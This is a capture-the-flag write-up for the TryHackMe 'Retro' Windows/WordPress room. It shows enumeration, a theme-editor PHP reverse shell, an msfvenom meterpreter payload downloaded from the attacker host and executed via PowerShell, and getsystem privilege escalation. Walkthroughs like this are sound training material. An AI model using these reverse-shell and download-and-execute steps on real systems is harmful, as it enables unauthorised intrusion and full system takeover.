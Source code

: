 ```yaml
---
layout: default
title: Retro
description: THM - Retro
---
```


## Enumeration
Nmap:
```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-23 20:18 EEST
Nmap scan report for 10.10.190.35
Host is up (0.067s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.00 seconds
```
Gobuster:
```
/retro
/retro/wp-content
/retro/wp-includes
/retro/wp-login.php
```
From the gobuster results, we figure that the website is running on wordpress.
The host OS is windows, so we may need to look into some powershell later on.

Let's take a look at the website. CTF creators like to hide things in plain sight.

We click on "Wade" and we have all his posts and comments.

Let's read through some posts.

Alright, found nothing, but there was a single comment.

![image](https://github.com/TudM99/tudm99.github.io/blob/main/images/retro_01.png)

Let's try logging into wordpress with that word as a password, and I'll try a few usernames like wade, admin, etc.

And we're in!

Now we'll use the good ol' theme editor to get a reverse shell on the system.

I'll use Twenty Seventeen, with a php shell from Ivan Sincek, but you can go ahead and experiment. Replace the 404.php content with your shell, and launch it.


```
10.10.190.35/retro/wp-content/themes/twentyseventeen/404.php
```
```
nc -lvnp 9002
Listening on 0.0.0.0 9002
Connection received on 10.10.190.35 49854
SOCKET: Shell has connected! PID: 1864
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\retro\wp-content\themes\twentyseventeen>

```
Great! We have a shell. Let's look around for interesting files, and write permissions.

First of all, I'll pop into powershell since I find it easier to navigate with.
```
PS C:\Users> cd Wade
PS C:\Users\Wade> ls
ls : Access to the path 'C:\Users\Wade' is denied.
At line:1 char:1
+ ls
+ ~~
    + CategoryInfo          : PermissionDenied: (C:\Users\Wade:String) [Get-Ch 
   ildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell. 
   Commands.GetChildItemCommand
 
PS C:\Users\Wade> 

```
I tried accessing the "Wade" folder, but my access is denied. Same story with the admin folder.

This being a Windows machine, most likely we'll have write access to the public folders. Let's give it a go.

First, I'll generate an msfvenom payload for a reverse_tcp connection.
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.18.116.220 LPORT=9003 -f exe -o reverse.exe
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.18.116.220; set lport 9003; exploit"
```
And now, with a python http server open, let's try to download and execute the "reverse.exe" file
```
PS C:\Users\Public> $url = "http://10.18.116.220:8000/reverse.exe"
PS C:\Users\Public> $outpath = "C:/Users/Public/reverse.exe"
PS C:\Users\Public> Invoke-WebRequest -Uri $url -OutFile $outpath
PS C:\Users\Public> ls


    Directory: C:\Users\Public


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
d-r---        12/8/2019  10:49 PM                Documents                     
d-r---        7/16/2016   6:23 AM                Downloads                     
d-r---        7/16/2016   6:23 AM                Music                         
d-r---        7/16/2016   6:23 AM                Pictures                      
d-r---        7/16/2016   6:23 AM                Videos                        
-a----        9/23/2023  10:42 AM           7168 reverse.exe                   


PS C:\Users\Public>

```

Good, we now have our payload on the machine. Let's try running it.
```
PS C:\Users\Public> .\reverse.exe

payload => windows/x64/meterpreter/reverse_tcp
lhost => 10.18.116.220
lport => 9003
[*] Started reverse TCP handler on 10.18.116.220:9003 
[*] Sending stage (200774 bytes) to 10.10.190.35
[*] Meterpreter session 1 opened (10.18.116.220:9003 -> 10.10.190.35:49874) at 2023-09-23 20:43:39 +0300

meterpreter > getuid
Server username: IIS APPPOOL\retro
meterpreter > 

```
Nice, we have a meterpreter shell.

## Privilege Escalation:

We'll use the default meterpreter "getsystem" command.
```
meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
We now have system privileges. We can read both flags and submit them!

Good hunting o7

[Try it out yourself!](https://tryhackme.com/room/retro)

[back](./)
